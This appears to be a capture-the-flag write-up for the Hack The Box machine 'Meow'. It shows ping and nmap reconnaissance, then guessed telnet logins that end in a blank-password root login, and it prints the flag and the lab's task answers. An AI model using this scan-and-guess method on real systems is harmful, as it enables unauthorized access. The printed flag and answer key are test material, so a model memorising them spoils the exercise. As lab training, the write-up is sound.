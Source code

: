 # Meow

---

## Enumeration

Before starting the enumeration process I always store the IP Address of the victim machine in a environment variable to refer back to in case there's something else occupying my clipboard:
```
$ export IP = 10.129.200.97
```
and just in case:
```
$ echo $IP
10.129.200.97
```

To make sure the target machine is alive and everything is setup correctly, I use `ping` command to see if i get any response from the target machine:
```
$ ping $IP
PING 10.129.200.97 (10.129.200.97) 56(84) bytes of data.
64 bytes from 10.129.200.97: icmp_seq=1 ttl=63 time=68.3 ms
64 bytes from 10.129.200.97: icmp_seq=2 ttl=63 time=67.6 ms
64 bytes from 10.129.200.97: icmp_seq=3 ttl=63 time=68.4 ms
64 bytes from 10.129.200.97: icmp_seq=4 ttl=63 time=68.6 ms
64 bytes from 10.129.200.97: icmp_seq=5 ttl=63 time=79.0 ms
```
Next step I start scanning the target's open ports and services running on it using [nmap](https://nmap.org) with the `-sV` flag to determine the name of the identified service and its description, `-p-` to scan all possible ports, `-v` for verbose output and more information about the scanning process, `-oN` to save the output to a file.
```
$ nmap -sV -sC -p- -v -oN scan.nmap $IP
```

after the scan is complete, here's the result:
```
Nmap scan report for 10.129.200.97
Host is up (0.19s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The result shows the only open port is 23 and running a service called [Telnet](https://en.wikipedia.org/wiki/Telnet), this link takes you to the official wiki page, and it does a pretty good job at explaining it.

---

## Telnet 

I tried connecting to the Telnet server using `telnet` command in the terminal window:
```
$ telnet $IP
```
It worked and I connected to the server and got greeted with a login phase:
```
Trying 10.129.200.97...
Connected to 10.129.200.97.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login:
```

I tried different usernames with no password `admin`, `administrator`, `guest`, `meow` and all went through with no success. However, after trying the username `root` and a blank password, I successfully had access to a terminal of the target machine.

```
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 
```

---

## Tasks & Answers

<details>
    <summary><b>Task 1</b>: What does the acronym VM stand for?</summary>

    Virtual Machine
</details>


> Virtual Machine

**Task 2**: What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.
> Terminal

**Task 3**: What service do we use to form our VPN connection into HTB labs?
> openvpn

**Task 4**: What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?
> by using `ifconfig` in the terminal window: **tun**

**Task 5**: What tool do we use to test our connection to the target with an ICMP echo request?
> ping

**Task 6**: What is the name of the most common tool for finding open ports on a target?
> nmap

**Task 7**: What service do we identify on port 23/tcp during our scans?
> telnet

**Task 8**: What username is able to log into the target over telnet with a blank password?
> root

**FLAG**:
> b40abdfe23665f766f9c61ecba8a4c19

---

## Vulnerability

This machine was pretty straight forward, this vulnerability was obvious that Telnet service had a user with root privs that can be accessed without a password, giving users - especially root - a password would come in handy.

```
root@Meow:~# sudo -l
Matching Defaults entries for root on Meow:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User root may run the following commands on Meow:
    (ALL : ALL) ALL
```

---

## TIP

If you get stuck in the Telnet terminal and CTRL+C does not spare you, in the very beginning of the connection you were prompted with `Escape character is '^]'`.

`'^]'` means ctrl + ] (right bracket), you'll be taken to the telnet prompt where you can type `quit` or simply `q` to terminate the connection.

```
root@Meow:~# 
telnet> quit
Connection closed.
```

---